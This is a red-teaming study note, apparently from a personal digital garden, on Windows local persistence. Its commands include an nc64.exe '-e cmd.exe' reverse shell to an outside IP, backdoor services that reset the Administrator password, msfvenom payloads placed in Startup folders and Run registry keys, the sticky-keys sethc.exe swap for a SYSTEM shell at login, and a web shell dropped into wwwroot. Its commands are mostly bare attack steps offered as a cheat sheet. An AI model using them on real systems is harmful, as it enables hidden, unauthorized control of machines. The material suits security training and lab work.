 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/red-teaming/local-persistance/"}
---
```







## ==Special Privileges==

```Shell
secedit /export /cfg config.inf

secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

- Creates a file for assigning privs.

## ==RID Hijacking==

```Shell
wmic useraccount get name,sid
```

## ==Shortcut Files==

```Shell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe [IP]"

C:\Windows\System32\calc.exe
```

- Changes the shortcut of calculator shortcut on desktop.

## ==Creating Backdoor Services==

```Shell
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto

sc.exe start THMservice
```

- After this, create an exe in metasploit and copy it to target.

## ==Modifying Existing Services==

```Shell
sc.exe query state=all
```

- List of available services using this command.

  

- Can be done using the same method for abusing scheduled tasks.

## ==Logon Triggered Persistence==

### ==With Startup Folders==

- Generate a reverse shell in msfvenom.
- Copy it to http.server with Python3 and wget.

```Shell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"
```

### ==Run / RunOnce==

- Force a user to execute a program on logon via the registry.
- Can use the following registry entries to specify applications to run at logon:

```Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

- Create a revshell and move to the target.

### ==Logon Scripts==

- Create a revshell, move it to the target.
- Create an env-var in registry.
- Add the entry to point to the payload so it gets loaded.

## ==Backdooring Login Screens==

### ==Sticky Keys==

```Shell
takeown /f c:\Windows\System32\sethc.exe

icacls C:\Windows\System32\sethc.exe /grant Administrator:F

copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

- After this, pressing SHIFT 5 times to access a terminal with SYS priv directly from login screen.
- Same for utilman.

## ==Persisting through Existing Services==

### ==Using Web Shells==

```Shell
move shell.aspx C:\inetpub\wwwroot\
```